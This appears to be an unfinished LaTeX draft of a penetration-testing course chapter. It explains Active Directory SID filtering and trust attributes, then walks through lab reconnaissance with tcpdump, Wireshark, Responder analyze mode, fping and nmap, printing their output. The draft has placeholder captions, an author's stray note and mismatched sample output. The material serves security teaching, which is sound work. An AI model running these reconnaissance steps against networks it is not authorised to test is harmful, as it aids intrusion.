    
\includegraphics[width=0.75\linewidth]{sidfiltering.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Section \href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280}{4.1.2.2} of [MS-PAC] specifies what is filtered and when. There are three important things to remember from this document:

\begin{itemize}
    \item If SID filtering is fully enabled, all SIDs that differ from the trusted domain will be filtered out
    \item Even if it's enabled, a few SIDs will (almost) never be filtered: "Enterprise Domain Controllers" (\texttt{S-1-5-9}) SID and those described by the \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/f2ef15b6-1e9b-48b5-bf0b-019f061d41c8\#gt_f2ceef4e-999b-4276-84cd-2e2829de5fc4}{trusted domain object (TDO)}, as well as seven well-known SIDs (see \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280}{MS-PAC doc}, and \href{https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-3-sid-filtering-explained\#yui_3_17_2_1_1673614140169_543}{improsec's blogpost}).
    \item there are two kinds of inter-forest trusts: "Forest", and "External" (see \href{https://www.thehacker.recipes/ad/movement/trusts/index\#trust-types}{trust types}). Microsoft says "cross-forest trusts are more stringently filtered than external trusts", meaning that in External trusts, SID filtering only filters out RID < 1000.
\end{itemize}

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ms-pacsection.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

[MS-PAC] section 4.1.2.2

\importantbox{The SID filtering status of a trust depends on the \href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/e9a2d23c-c31e-4a6f-88a0-6646fdb51a3c}{trustAttributes} flags of a \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/b645c125-a7da-4097-84a1-2fa7cea07714\#gt_f2ceef4e-999b-4276-84cd-2e2829de5fc4}{TDO} as well as the type of trust.}

\begin{quote}

If the \verb|TRUST_ATTRIBUTE_QUARANTINED_DOMAIN (0x00000004)| flag is set, then only SIDs from the trusted domain are allowed (all others are filtered
\textit{(by} \href{https://twitter.com/0xcsandker}{\textit{Carsten Sandker}} \textit{on} \href{https://www.securesystems.de/blog/active-directory-spotlight-trusts-part-2-operational-guidance/}{\textit{www.securesystems.de}}\textit{)}

If the \verb|TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL (0x00000040)| flag is set, then inter-forest ticket can be forged, spoofing an RID >= 1000. Of course, this doesn't apply if TAQD (\verb|TRUST_ATTRIBUTE_QUARANTINED_DOMAIN|) is set.
\textit{(sources: section} \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/e9a2d23c-c31e-4a6f-88a0-6646fdb51a3c?redirectedfrom=MSDN}{\textit{6.1.6.7.9}} \textit{of [MS-ADTS], and section} \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280}{\textit{4.1.2.2}} \textit{of [MS-PAC]).}

\end{quote}

Above are some key, usually valid, elements. But as \href{https://twitter.com/0xcsandker}{Carsten Sandker} puts it: "the logic that sits behind this might be too complex to put it in text". To really know the behavior of SID filtering for a trust, refer to the lookup tables \href{https://www.securesystems.de/images/blog/active-directory-spotlight-trusts-part-2-operational-guidance/OC-b4We5WFiXhTirzI_Dyw.png}{here} (for default trusts setups) and \href{https://www.securesystems.de/images/blog/active-directory-spotlight-trusts-part-2-operational-guidance/99icUS7SKCscWq6VzW0o5g.png}{there} (for custom configs).

SID filtering is not unique to trusts. It occurs "\href{https://twitter.com/SteveSyfuhs/status/1329148611305693185}{whenever a service ticket is accepted}" either by the KDC or by a local service and behaves differently depending on the contect in which the ticket was produced.

Also, SID filtering works the same way for NTLM and Kerberos. It's a separate mechanism invoked after user logon info are unpacked (more details in \href{https://www.thehacker.recipes/ad/movement/trusts/index\#ntlm-authentication}{NTLM} and \href{https://www.thehacker.recipes/ad/movement/trusts/index\#kerberos-authentication}{Kerberos} chapters).

 


\section{Audience}
This chapter is designed for learners who want to build their skills in assessing and exploiting trust relationships in Active Directory (AD). It is written to be approachable for motivated beginners while still providing the depth needed to challenge those with some prior experience in AD-related security.

You do not need to be an expert in Active Directory to benefit from this information contained here within; however, having a basic familiarity with AD concepts (such as domains, forests, and Kerberos authentication) will make it easier to follow along. If you are completely new to AD security, I recommend reviewing the Active Directory Enumeration \& Attacks chapter first, as it covers the foundational concepts and techniques that many of the trust-based attacks in this chapter build upon.

In short, whether you are just starting your journey into Active Directory security or looking to sharpen existing skills, this chapter will equip you with practical knowledge of trust-based attacks and defenses.

\section{Enumerating Domain \& Forest Trusts}
When performing initial Active Directory enumeration, it is important to note down any and all trust relationships you encounter, as trusts may present an attack vector that may lead to compromise of one or more domains through either misconfigurations or abusing Windows and AD built-in functionalities.  You can use various tools to enumerate domain and forest trust relationships. Tools such as the PowerShell cmdlets with which we are currently working, PowerView.  Command-line utilities such as \texttt{nltest} and \texttt{netdom}
can discover trust types (e.g., forest, parent/child, external), their direction (one-way or two-way), and the authentication flow between domains and forests.

MITRE ATT\&CK Domain Trust Discovery Technique T1482
A variety of tools can be used to enumerate domain and forest trusts. Below, we will examine enumeration using both a built-in PowerShell cmdlet and an open-source tool commonly used by hackers.

\section{Initial Enumeration of the Active Directory Domain}
We will start from a Linux attack host without domain user credentials. It is a common thing to start of any security hacking engagement in this manner. Many organizations will wish to see what you can do from a blind man's perspective, such as this, before prividing you with further information for your test. It gives a more realistic look at what potential avenues an adversary would have to use to infiletrate the domain.  It can help you to better visualize what an attacker could do if they gain unauthorized access via the internet (e.g., a phishing attack), phyiscal access to the building, wireless access form outside (if the wireless networl touches the internal Active Directory domain environment), or even a rogue AP or employee. Depending on the success of this phase, the customer may provide you with access to a domain-joined host or a set of credentials for the network to expedite testing and allow you to cover as much ground as possible.

Below are some of the key data points that you should be looking for at this time and noting down into your note-taking tool of choice nad saving scan and tool output files to your external or cloud-based storage of choice whenever possible.

\subsection{Key Data Points}

\begin{table}
    \centering
    \begin{tabular}{cc}
         Data Point& Description\\
         AD Users& Your goal is to enumerate valid user accounts you can target for password spraying.\\
         AD-Joined Computers& Key computers include Domain Controllers (DCs), file servers, SQL servers, web servers, Exchange email servers, and any other juicy target you can use to leverage for permissions esclation.\\
         Key Services& Kerberos, NetBIOS, LDAP, DNS\\
         Vulnerable Hosts and Services& Anything that can be a quick win (e.g., an easy host to exploit and gain initial toehold)-start probing "low hanging fruit" first.\\
    \end{tabular}
    \caption{Caption}
    \label{tab:placeholder}
\end{table}

\section{Tactics, Techniques, and Procedures (TTPs)}
Enumerating an Active Directory (AD) environment can be quite overwhelming if approached just without an attack workflow or plan in place. There is an abundance of data stored in AD, and it can take a very long time to sift if not looked at and parsed in progressive stages, and chances are, you will likely miss things. You need to set a game plan for yourself and tackle it piece by piece. In addition, no one said hacking was easy.

Everyone works in slightly different ways, this is understood, so as you gain more experience, you will start to develop your own repeatable attack and defend methodologies that work best for you. Regardless of how you proceed, you should typically start in the same place and look for the same data points. We will experiment with many tools in this section and subsequent ones. However, it is important to note the importance of reproducing every example and even trying to recreate examples with different tools to see how they work differently, learning their syntactical complexities, and finding what approach works best for you. There is no one-size-fits-all when it comes to enumerating AD domains. In fact, it could be considered as a one-size-fits-all approach.

We will start with \texttt{passive} identification of any hosts in the AD network, followed by \texttt{active} validation and verification of the results to find out more about each host, such as what services are running, names, potential vulnerabilities, and more). Once you know which hosts exist, you can proceed with probing those hosts, further looking for any interesting data points that you can glean from them. After you have accomplished these tasks, you should stop and regroup and look at the information you have collected. At this time, you will hopefully have a set of credentials or a user account to target for a toehold into a domain-joined host or have the ability to begin credentialed enumeration from your attacking host.

Let us look at some tools and techniques to help us with this enumeration activity.

\subsubsection{Identifying AD Domain-Joined Hosts}
First, take some time to listen to the network and see what is going on before you jump in head first. This is called \textit{passive reconnaissance / enumeration.} Here, you can use tools like Wireshark and \texttt{tcpdump} to essentially "put your ear to the wire" and see what hosts and types of network traffic you can capture to get a feel for the "lay of the land" you are about to attempt to attack. This is particularly helpful if the assessment approach is a "black-box" approach. We notice some ARP requests and replies, MDNS, and other basic Layer 2 packets (since we are on a switched network, we are limited to the current broadcast domain), some of which we can see below. This is a great start that gives you a few bits of information about the target's network setup.

\begin{notebox}
    \verb|tcpdump| is a command-line packet analyzer for capturing and displaying network traffic on unix-like systems, allowing you to diagnose network problems, identify security threats, and monitor network performance by analyzing packets on a network interface. It can be installed using package managers like \verb|dnf|, \verb|apt|, or \verb|brew.| Key features include capturing packets in a file for later analysis (using the \texttt{-w} flag), reading from a capture file (using \texttt{-r}), and filtering traffic by host, network, or port.

\textbf{How \texttt{tcpdump}} \textbf{Works}
\textbf{Captures traffic:}
\texttt{tcpdump} intercepts and displays packets being sent and received by the computer it is running on.

\textbf{Real-time analysis:}
It provides a description of the packet's contents, including time stamps, to hlep you better understand network activities.

\textbf{Filtering:}
You can apply filters to specify which network traffic you are interested in capturing, focusing on specific hosts, networks, or protocols.

\textbf{Saving and reading:}
Captured data can be saved to a file for later review, more detailed analysis, or read from a previously saved file.

\subsubsection{Common Uses:}
\textbf{Troubleshooting:}
Continuously monitor network traffic to identify network bottlenecks and performance and optimization issues. These network traffic patterns can be used to establish baselines that support security implementations through network behavior analysis.

\textbf{Security:}
Detect unusual network activities, such as port scanning or potential Distributed Denial of Service (DDoS) attacks.

\textbf{Debugging:}
Analyze specific protocol traffic such as HTTP or DNS to diagnose network services problems.

Some basic \texttt{tcpdump} commands to begin with include:
Install \texttt{tcpdump}:
\begin{itemize}\textbf{
    \item Debian / Ubuntu:} \verb|sudo apt install tcpdump|
    \item \textbf{Red Hat / CentOS:} \verb|sudo dnf install tcpdump|
    \item \textbf{macOS:} \verb|brew install tcpdump|
\end{itemize}
\textbf{Capture traffic on an interface:}
\begin{itemize}
    \item \verb|tcpdump -i any| captures traffic from any interface until interrupted (\texttt{Ctrl+C})
    \item \verb|tcpdump -i eth0| captures traffic specifically on the \texttt{eth0} interface.
\textbf{Limit captured packets:}
\item \verb|tcpdump -c 10| captures the first 10 packets and then stops.
\textbf{Save to a file:}
\item \verb|tcpdump -w packets.pcap| saves captured packets to a file named \texttt{packets.pcap.}
\textbf{Read from a file:}
\item \verb|tcpdump -r packets.pcap| reads and dispalys packets from the \texttt{packets.pcap} file.
\textbf{Combine filters:}
\item \verb|tcpdump host 192.168.1.1 and port 80| capture traffic to or from the host \texttt{192.168.1.1} on port 80.
\end{itemize}
\end{notebox}

\subsection{Initial AD Domain Enumeration with Wireshark}
Scroll to the bottom, spawn the target, connect to your (preferably) Linux attack host using \texttt{xfreerdp} and fire up Wireshark to begin capturing traffic.
I need a URL to show these steps above.

\begin{notebox}
    Wireshark is a free open source network protocol analyzer that captures and inspects network traffic in real time, allowing you to analyze data at the packet level to troubleshoot network issues, detect security vulnerabilities, and understand network communications. It is a widely used tool used by network administrators, security professionals, and developers to gain deep visibility into netwrork activities and identify problems when they arise.

\textbf{Key Features}
\textbf{Packet Capture \& Analysis}
\begin{itemize}
    \item Wireshark can capture live network traffic and also analyze previously saved packet capture files in various formats.
\textbf{Protocol Dissection:}
Dissects and displays network packets in a readable format, including source and destination addresses, ports, and packet contents, translating raw data into understandable and meaningful information.
\textbf{Filtering and Search:}
\item You can apply display filters to find specific network communications within the captured data.
\textbf{Real-Time Monitoring:}
\item Wireshark provides a graphical interface to watch packets in real-time flow through a network in action.
\textbf{Color-Coding:}
\item Wireshark can color-code packets based on user pre-defined rules, helping you to visually distinguish between different types of flowing network traffic, such as voice over IP or encrypted data communications.
\textbf{Open-Source:}
\item As an open-source project released under the GNU General Public License, it is free to use, and its source code is readily available, allowing for community-driven enhancements.
\end{itemize}

\textbf{How It Works}
\begin{enumerate}
    \item \textbf{Packet Capture:} Wireshark runs in \textit{"promiscuous mode"} to capture most of the network traffic on a local network, rather than just network traffic directed to the target machine it is running on.
    \item \textbf{Packet Dissection:} When data pass through your specified interface, Wireshark intercepts it and dissects it into its constituent protocols and fields.
    \item \textbf{Real-Time Visualization:} The tool displays captured packets in a user-friendly interface, showing details such as source and destination, protocol type, and data payload.
    \item \textbf{Analysis:} You can then filter, search and analyze these detailed data to identify issues, security threats, or to better understand application behaviors and functions.
\end{enumerate}
\end{notebox}



Start Wireshark on ea-attack01
Initial Enumeration of the Domain

Initial Enumeration of the Domain

\begin{verbatim}
┌─[mhd-student@ea-attack01]─[~] └──╼ \textbf{$}sudo -E wireshark 11:28:20.487 Main Warn QStandardPaths: runtime directory '/run/user/1001' is not owned by UID 0, but a directory permissions 0700 owned by UID 1001 GID 1002 <SNIP> 
\end{verbatim}

\paragraph{Wireshark Output}
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ws.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
 

The ARP packets inform us about the hosts: 172.16.5.5, 172.16.5.25 172.16.5.50, 172.16.5.100, and 172.16.5.125.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{arpws.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

MDNS makes us aware of the ACADEMY-EA-WEB01 host.
If we are on a host without a GUI (which is typical), we can use tcpdump, net-creds, and NetMiner, etc., to perform the same functions. We can also use tcpdump to save a capture to a \texttt{.pcap} file, transfer it to another host and open it in Wireshark.

\paragraph{Tcpdump Output}

Initial Enumeration of the Domain
\verb|mindhackdiva@hhw[/hhw]$ sudo tcpdump -i ens224$|
\begin{verbatim}
---|mindhackdiva@hhwattack01| - | - | 
----- $sudo tcpdump -i ens224
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens224, link-type EN10MB (Ethernet), capture size 262144 bytes
10:17:05.123456 IP 192.168.1.10.54321 > 8.8.8.8.53: 12345+ A? example.com. (29)
10:17:05.123789 IP 8.8.8.8.53 > 192.168.1.10.54321: 12345 1/0/0 A 93.184.216.34 (45)
10:17:06.231456 IP 192.168.1.10.443 > 192.168.1.25.51234: Flags [P.], seq 1:501, ack 1, win 229, length 500
10:17:07.845678 IP6 fe80::1 > ff02::1: ICMP6, router advertisement, length 64
10:17:08.112233 ARP, Request who-has 192.168.1.1 tell 192.168.1.10, length 28
10:17:08.112456 ARP, Reply 192.168.1.1 is-at 00:11:22:33:44:55, length 46
[snip]
\end{verbatim}
There is no one right way to listen and capture network traffic. There are many tools that can process network data. Wireshark and tcpdump are just a few of the easiest to use and most widely known. Depending on the host on which you are on, you may already have a network monitoring tool built-in, such as \verb|pktmon.exe|, which was added to all Windows 10 editions. As a note for testing, it is always a good idea to save the PCAP traffic you capture. You can review it again later to look for more hints and it makes a great additional information to include while writing your reports.

Our first look at network traffic led us to a couple of hosts via \verb|MDNS| and \verb|ARP|. Now let us utilize a tool called \verb|Responder| to analyze network traffic and determine if anything else pops up in the domain.

\subsection{Responder}
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{responderlogo.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

\href{https://github.com/lgandx/Responder-Windows}{Responder} is a tool built to listen, analyze, and poison \verb|LLMNR|, \verb|NBT-NS|, and \verb|MDNS| requests and responses. It has many more functions, but for now, all we are utilizing is the tool in its Analyze mode. This will passively listen to the network and will not send poisoned packets. We will cover this tool more in-depth in later sections.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{responder.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
\paragraph{Starting Responder}

Code: bash

\begin{verbatim}
sudo responder -I ens224 -A 
\end{verbatim}

\paragraph{Responder Results}

As we start Responder with passive analysis mode enabled, we will see requests flow in our session. Notice in the following that we found some unique hosts not previously mentioned in our Wireshark captures. It is worth noting these down as we are starting to build a nice target list of IPs and DNS hostnames.

Our passive checks have given us a few hosts to note down for a more in-depth enumeration. Now let us perform some active checks starting with a quick ICMP sweep of the subnet using\verb|fping|.

\href{https://fping.org/}{Fping} provides us with a capability similar to that of the standard ping application in that it utilizes ICMP requests and replies to reach out and interact with a host. Where fping shines is in its ability to issue ICMP packets against a list of multiple hosts at once and its scriptability. Also, it works in a round-robin fashion, querying hosts in a cyclical manner instead of waiting for multiple requests to a single host to return before moving on. These checks will help us determine if anything else is active on the internal network. ICMP is not a one-stop-shop, but it is an easy way to get an initial idea of what exists. Other open ports and active protocols may point to new hosts for later targeting. Let us see it in action.

 \subsubsection{FPing Active Checks}
Here we’ll start \verb|fping| with a few flags: \verb|a| to show targets that are alive, \verb|s| to print stats at the end of the scan, \verb|g| to generate a target list from the CIDR network, and \verb|q| to not show per-target results.

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} fping -asgq 172.16.5.0/23 172.16.5.5 172.16.5.25 172.16.5.50 172.16.5.100 172.16.5.125 172.16.5.200 172.16.5.225 172.16.5.238 172.16.5.240 510 targets 9 alive 501 unreachable 0 unknown addresses 2004 timeouts (waiting for response) 2013 ICMP Echos sent 9 ICMP Echo Replies received 2004 other ICMP received 0.029 ms (min round trip time) 0.396 ms (avg round trip time) 0.799 ms (max round trip time) 15.366 sec (elapsed real time) 
\end{verbatim}

The above command validates which hosts are active in the \verb|/23| network and does it quietly instead of spamming the terminal with results for each IP in the target list. We can combine the successful results and the information we gleaned from our passive checks into a list for a more detailed scan with Nmap. From the \verb|fping| command, we can see 9 'live hosts', including our attack host.

Note: The scan results in the target network will differ from the command output in this section due to the size of the lab network. It is still worth reproducing each example to practice how these tools work and to record every host that is living in your environment.

\subsubsection{Scanning with Nmap}
Now that we have a list of active hosts within our network, we can further enumerate those hosts. We are looking to determine what services each host is running, identify critical hosts such as \verb|Domain Controllers| and \verb|web servers|, and identify potentially vulnerable hosts to probe later. With our focus on AD, after doing a broad sweep, it would be wise of us to focus on standard protocols typically seen accompanying AD services, such as DNS, SMB, LDAP, and Kerberos, to name a few. Below is a quick example of a simple Nmap scan.

Code: bash

\begin{verbatim}
sudo nmap -v -A -iL hosts.txt -oN /home/htb-student/Documents/host-enum 
\end{verbatim}

The \href{https://nmap.org/book/man-misc-options.html}{-A (Aggressive scan options)} scan will perform several functions. One of the most important is a quick enumeration of well-known ports to include web services, domain services, etc. For our hosts.txt file, some of our results from Responder and fping overlapped (we found the name and IP address), so to keep it simple, just the IP address was fed into hosts.txt for the scan.

\paragraph{NMAP Result Highlights}

Initial Enumeration of the Domain

\begin{verbatim}
Nmap scan report for inlanefreight.local (172.16.5.5) Host is up (0.069s latency). Not shown: 987 closed tcp ports (conn-refused) PORT STATE SERVICE VERSION 53/tcp open domain Simple DNS Plus 88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-04 15:12:06Z) 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name) |_ssl-date: 2022-04-04T15:12:53+00:00; -1s from scanner time. | ssl-cert: Subject: | Subject Alternative Name: DNS:ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL | Issuer: commonName=INLANEFREIGHT-CA | Public Key type: rsa | Public Key bits: 2048 | Signature Algorithm: sha256WithRSAEncryption | Not valid before: 2022-03-30T22:40:24 | Not valid after: 2023-03-30T22:40:24 | MD5: 3a09 d87a 9ccb 5498 2533 e339 ebe3 443f |_SHA-1: 9731 d8ec b219 4301 c231 793e f913 6868 d39f 7920 445/tcp open microsoft-ds? 464/tcp open kpasswd5? 593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name) <SNIP> 3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name) 3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name) 3389/tcp open ms-wbt-server Microsoft Terminal Services | rdp-ntlm-info: | Target_Name: INLANEFREIGHT | NetBIOS_Domain_Name: INLANEFREIGHT | NetBIOS_Computer_Name: ACADEMY-EA-DC01 | DNS_Domain_Name: INLANEFREIGHT.LOCAL | DNS_Computer_Name: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL | DNS_Tree_Name: INLANEFREIGHT.LOCAL | Product_Version: 10.0.17763 |_ System_Time: 2022-04-04T15:12:45+00:00 <SNIP> 5357/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |_http-title: Service Unavailable |_http-server-header: Microsoft-HTTPAPI/2.0 Service Info: Host: ACADEMY-EA-DC01; OS: Windows; CPE: cpe:/o:microsoft:windows 
\end{verbatim}

Our scans have provided us with the naming standard used by NetBIOS and DNS, we can see that some hosts have RDP open, and they have pointed us in the direction of the primary \verb|Domain Controller| for the INLANEFREIGHT.LOCAL domain (ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL). The following results show some interesting results surrounding a possibly outdated host (not in our current lab).

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} nmap -A 172.16.5.100 Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 13:42 EDT Nmap scan report for 172.16.5.100 Host is up (0.071s latency). Not shown: 989 closed tcp ports (conn-refused) PORT STATE SERVICE VERSION 80/tcp open http Microsoft IIS httpd 7.5 |_http-title: Site doesn't have a title (text/html). |_http-server-header: Microsoft-IIS/7.5 | http-methods: |_ Potentially risky methods: TRACE 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 443/tcp open https? 445/tcp open microsoft-ds Windows Server 2008 R2 Standard 7600 microsoft-ds 1433/tcp open ms-sql-s Microsoft SQL Server 2008 R2 10.50.1600.00; RTM | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback | Not valid before: 2022-04-08T17:38:25 |_Not valid after: 2052-04-08T17:38:25 |_ssl-date: 2022-04-08T17:43:53+00:00; 0s from scanner time. | ms-sql-ntlm-info: | Target_Name: INLANEFREIGHT | NetBIOS_Domain_Name: INLANEFREIGHT | NetBIOS_Computer_Name: ACADEMY-EA-CTX1 | DNS_Domain_Name: INLANEFREIGHT.LOCAL | DNS_Computer_Name: ACADEMY-EA-CTX1.INLANEFREIGHT.LOCAL |_ Product_Version: 6.1.7600 Host script results: | smb2-security-mode: | 2.1: |_ Message signing enabled but not required | ms-sql-info: | 172.16.5.100:1433: | Version: | name: Microsoft SQL Server 2008 R2 RTM | number: 10.50.1600.00 | Product: Microsoft SQL Server 2008 R2 | Service pack level: RTM | Post-SP patches applied: false |_ TCP port: 1433 |_nbstat: NetBIOS name: ACADEMY-EA-CTX1, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c7:1c (VMware) | smb-os-discovery: | OS: Windows Server 2008 R2 Standard 7600 (Windows Server 2008 R2 Standard 6.1) | OS CPE: cpe:/o:microsoft:windows_server_2008::- | Computer name: ACADEMY-EA-CTX1 | NetBIOS computer name: ACADEMY-EA-CTX1\x00 | Domain name: INLANEFREIGHT.LOCAL | Forest name: INLANEFREIGHT.LOCAL | FQDN: ACADEMY-EA-CTX1.INLANEFREIGHT.LOCAL |_ System time: 2022-04-08T10:43:48-07:00 <SNIP> 
\end{verbatim}

